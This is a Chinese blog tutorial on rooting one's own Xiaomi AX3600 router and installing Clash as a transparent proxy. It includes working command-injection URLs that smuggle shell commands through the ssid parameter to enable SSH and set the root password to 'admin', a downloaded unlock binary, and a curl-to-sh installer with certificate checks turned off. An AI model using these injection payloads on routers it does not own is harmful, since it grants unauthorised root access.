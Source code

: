 ```yaml
---
title: AX3600开启ssh并使用Clash实现透明代理
date: 2020-09-13 12:29:28
tags:
  - OpenWRT
  - GFW
  - Shadowsocks
  - ShadowsocksR
  - V2Ray
  - Trojan
  - Proxy
  - Clash
  - Xiaomi
  - Router
  - ROM
categories: 笔记
---
```


整了台小米路由器 AX3600 玩 ~~我没有 root 权限会死所以~~root 了下，发现还能用 clash

<!-- more -->

## 获取 root 权限并打开 ssh

### 使用官方固件漏洞开启 ssh

先需要将固件版本降级到`1.0.17`，固件可以在[这里](https://drive.google.com/drive/folders/1tIjKMNSSrkYm8vBGmk-gPTjTrYuREGLt)下载。

连接上 wifi 并打开[路由器管理页面](http://192.168.31.1/)

登录后浏览器地址栏应该是这样的：

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/web/home#router
```

复制记下这个`<STOK>`

把下面 URL 中的`<STOK>`替换成刚才的，并访问

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

会显示`{"code":0}`

再来一个 URL，注意替换`STOK`

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

到这里 ssh 就成功打开了
可以使用用户名 root+密码 admin 来 ssh 登录路由器

```bash
ssh root@192.168.31.1
```

输入密码回车后可以看到

```text
BusyBox v1.25.1 (YYYY-MM-DD HH:mm:ss UTC) built-in shell (ash)

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


root@XiaoQiang:~#
```

这个 RUOK 就很灵性

### 更改密码及权限维持

重新设置 root 密码

```bash
passwd root
#在路由器shell执行
```

这样并不能保证升级后 ssh 仍能使用，如果留在这个版本漏洞还是有一定风险。

备份

```bash
nanddump -f /tmp/bdata_mtd9.img /dev/mtd9
#在路由器shell执行
```

用你喜欢的方式下载`bdata_mtd9.img`，我使用 scp 命令

```bash
scp root@192.168.31.1:/tmp/bdata_mtd9.img ~/
```

下载[`fuckax3600`](https://cdn.jsdelivr.net/gh/Misaka13514/asset@main/blog/_posts/ax3600-ssh-clash/fuckax3600)(作者：[paldier](https://www.right.com.cn/forum/space-uid-194813.html)) 并传到路由器的`/tmp`目录

```bash
scp ~/Downloads/fuckax3600 root@192.168.31.1:/tmp/
```

```bash
chmod +x /tmp/fuckax3600
/tmp/fuckax3600 unlock
#在路由器shell执行
```

等待路由器重启后

```bash
/tmp/fuckax3600 hack
#在路由器shell执行
```

会自动设置永久 ssh、telnet、uart 权限，同时会计算出默认的 root 密码，注意记录密码，恢复出厂后 telnet 和 ssh 需要用

```bash
/tmp/fuckax3600 lock
#在路由器shell执行
```

然后就可以升级新版本了，如果升级完新版本 ssh 不能用

使用 telnet 登录

```bash
telnet 192.168.31.1
```

```bash
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear start
#在路由器shell执行
```

## 安装 clash 作为透明代理

这里使用一键脚本[`ShellClash`](https://github.com/juewuy/ShellClash)

```bash
sh -c "$(curl -kfsSl https://cdn.jsdelivr.net/gh/juewuy/ShellClash@latest/install.sh)" && source /etc/profile &> /dev/null
clash
#在路由器shell执行
```

使用`clash`命令就能打开管理脚本

## 参考

- [[AX3600] 小米 ax3600 获取 root 权限【简单快速】【修复丢 ssid】](https://www.right.com.cn/forum/forum.php?mod=viewthread&tid=4046020)

- [juewuy/ShellClash](https://github.com/juewuy/ShellClash)

- [Clash for Miwifi 安装及使用教程](https://juewuy.github.io/post/clash-for-miwifi-an-zhuang-ji-shi-yong-jiao-cheng/)
